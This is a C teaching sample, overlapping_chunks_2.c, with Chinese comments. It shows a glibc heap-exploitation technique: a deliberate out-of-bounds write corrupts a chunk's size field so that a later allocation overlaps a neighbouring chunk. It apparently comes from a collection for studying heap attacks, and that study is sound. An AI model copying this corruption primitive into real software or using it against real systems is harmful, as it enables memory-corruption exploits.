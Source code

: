 ### overlapping_chunks_2.c

```
/*
This technique is taken from
 https://loccs.sjtu.edu.cn/wiki/lib/exe/fetch.php?media=gossip:overview:ptmalloc_camera.pdf.

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main(){
  
  intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
  unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
  int prev_in_use = 0x1;

  p1 = malloc(1000);
  p2 = malloc(1000);
  p3 = malloc(1000);
  p4 = malloc(1000);
  p5 = malloc(1000);

  real_size_p1 = malloc_usable_size(p1);
  real_size_p2 = malloc_usable_size(p2);
  real_size_p3 = malloc_usable_size(p3);
  real_size_p4 = malloc_usable_size(p4);
  real_size_p5 = malloc_usable_size(p5);


  memset(p1,'A',real_size_p1);
  memset(p2,'B',real_size_p2);
  memset(p3,'C',real_size_p3);
  memset(p4,'D',real_size_p4);
  memset(p5,'E',real_size_p5);
  

  free(p4);

  *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 
  // 修改chunk p2的size，将p3包含进来

  free(p2); //将包含p3的堆块释放
  
  p6 = malloc(2000); // 重新获取到p3，此时就能对p3的内容进行修改
  real_size_p6 = malloc_usable_size(p6);

  memset(p6,'F',1500);  
}

```
和overlapping_chunks.c类似，overlapping_chunks.c溢出一个字节覆盖的是freed chunk的size，overlapping_chunks_2.c溢出一个字节覆盖的是use chunk的size，之后再释放该堆块，后面的步骤和overlapping_chunks.c一样。
